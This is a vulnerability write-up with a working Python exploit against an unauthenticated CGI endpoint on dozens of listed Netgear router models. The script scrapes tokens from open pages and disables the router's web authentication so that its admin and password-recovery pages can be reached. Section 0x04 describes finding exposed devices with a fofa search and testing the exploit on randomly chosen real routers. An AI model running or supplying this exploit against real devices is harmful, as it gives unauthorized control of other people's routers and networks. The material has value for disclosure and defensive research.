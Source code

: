 ## 0x00 Summary

There is a large number of netgear devices with a genieDisableLanChanged.cgi page that can be accessed without authorization. After accessing this page, the device's authentication function will be turned off.
Some devices need to set the correct token and send a POST type request to trigger the vulnerability. 

like 

```
POST http://target/genieDisableLanChanged.cgi?id=Token
```


Token values can be fetched from certain pages that do not require authorization. But different models are different, so it is difficult to find a general solution. In this PoC, I try to grab a Token from three pages, which is suitable for most situations.

## 0x01 Tested Versions

AC1450, D8500, DC112A, JNDR3000, LG2200D, R4500, R6200, R6200V2, R6250, R6300, R6300v2, R6400, R6700, R6900P, R6900, R7000P, R7000, R7100LG, R7300, R7900, R8000, R8300, R8500, WGR614v10, WN2500RPv2, WNDR3400v2, WNDR3700v3, WNDR4000, WNDR4500, WNDR4500v2, WNR1000, WNR1000v3, WNR3500L, WNR3500L

## 0x02 PoC instructions

If you use PoC's closeauth function to turn off the device's web authentication, you must call PoC's openauth function to restore device authentication within a few minutes, otherwise the device's web service may crash.

If the PoC is invalid for a certain target, the possible reasons are:
（1）The target does not exist in the genieDisableLanChanged.cgi page, returning 404 (no vulnerability exists)
（2）The target's genieDisableLanChanged.cgi page requires authorization and returns 401 (no vulnerability exists)
（3）The page prompts that the timestamp expires and returns 200. (There is a vulnerability, the correct token is not fetched, and secondary development is required.)

## 0x03 PoC

```Python
#!/usr/bin/env python

import sys
import time
import os
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def scrape(text, start_trig, end_trig):
    if text.find(start_trig) != -1:
    	return text.split(start_trig, 1)[-1].split(end_trig, 1)[0]
    else:
        return "Token maybe unnecessary"


def get_token(url):
	token=0
	while token==0:
		req = requests.get(url, verify=False)
		token = scrape(req.text, 'unauth.cgi?id=', '\"')
		if token=="Token maybe unnecessary":
			#print url+'genie_ping.htm'
			req = requests.get(url+'genie_ping.htm', verify=False)
			token = scrape(req.text, 'genieping.cgi?id=', '\"')
			if token=="Token maybe unnecessary":
			#print url+'genie_ping.htm'
				req = requests.get(url+'LGO_logout.htm', verify=False)
				token = scrape(req.text, 'logout.cgi?id=', '\"')

	return token

def get_url(ip,port):
	url = 'http://' + ip + ':' + port + '/'
	try:
		req = requests.get(url)
	except:
		url = 'https://' + ip + ':' + port + '/'
	return url


def close_auth(token,url):

	if token == "Token maybe unnecessary":
		vurl = url + 'genieDisableLanChanged.cgi'
	else:
		vurl = url + 'genieDisableLanChanged.cgi?id=' + token

	req = requests.post(vurl, verify=False)
	time.sleep(1)
	req = requests.post(vurl, verify=False)

	print 'Authentication is disabled'
	print 'Try: '+url+'BAS_basic.htm'
	print 'Try: '+url+'MNU_accessPassword_recovered.htm'

def open_auth(token,url):

	if token == "Token maybe unnecessary":
		vurl = url + 'geniemanual.cgi'
	else:
		vurl = url + 'geniemanual.cgi?id=' + token

	req = requests.post(vurl, verify=False)
	time.sleep(1)
	req = requests.post(vurl, verify=False)

	print 'Authentication is enabled'
	print 'Try: '+url+'BAS_basic.htm'
	print 'Try: '+url+'MNU_accessPassword_recovered.htm'


if __name__ == '__main__':
	if len(sys.argv) != 4:
		print 'usage:'
		print '1.python router.py ip port openauth'
		print '2.python router.py ip port closeauth'
		os._exit(0)

	ip=sys.argv[1]
	port=sys.argv[2]
	func=sys.argv[3]

	

	if func=='openauth':
		url=get_url(ip, port)
		token=get_token(url)
		open_auth(token,url)
	elif func=='closeauth':
		url=get_url(ip, port)
		token=get_token(url)
		close_auth(token,url)
	else:
		print 'usage:'
		print '1.python router.py ip port openauth'
		print '2.python router.py ip port closeauth'
		os._exit(0)
```

## 0x04 Vulnerability test example

Use the fofa search engine to retrieve the target, such as using the following dork syntax to get the target of the specified version.
```
dork: app="NETGEAR-WNDR3400v2"
```
![7ef9ce61dd1875f9961000dd3889fe0c](img/FC66A914-B18A-473F-B5B3-F798B015D3AA.png)
Next randomly select the target to use poc to test it. First, the access to the target directly needs to be authenticated. If the authentication is not authenticated, the corresponding page cannot be accessed.

![aca54fddbac415e49f12d4f24721e096](img/屏幕快照 2019-07-15 下午2.27.37.png)
![f851678f7fd85d7a5a2454d38b6bebe5](img/2896ACAC-346B-4466-A703-E22AEC18B046.png)



Next use PoC to turn off authentication and access key pages.

![2031c33b0f3e6937620a0151d9af1392](img/50A84184-249E-44D9-85D1-6E33539CCEBD.png)

![77179e57d9f8e5a333c50efd04453d1b](img/24791329-A503-44BF-9F39-6C57E4FC16F6.png)

![7d2e74f998fadcf41c3e42c749b83cec](img/C4B57C60-41F7-4FC0-B6A3-1707A301C89D.png)

Then use PoC to open the corresponding authorization and try to access the corresponding page again, and find that authorization is required to access.

![d1e26ba59ff297439edea6d328d9be72](img/F5DFD014-9A93-4404-A60C-3AD4F3BB9833.png)

![0108d5e52391baae09eb694cbf193752](img/74A49081-BC7D-4DD4-81A4-2F745F383D6E.png)

## 0x05 Acknowledgement

Thanks to the partners who discovered the vulnerability together：

z3

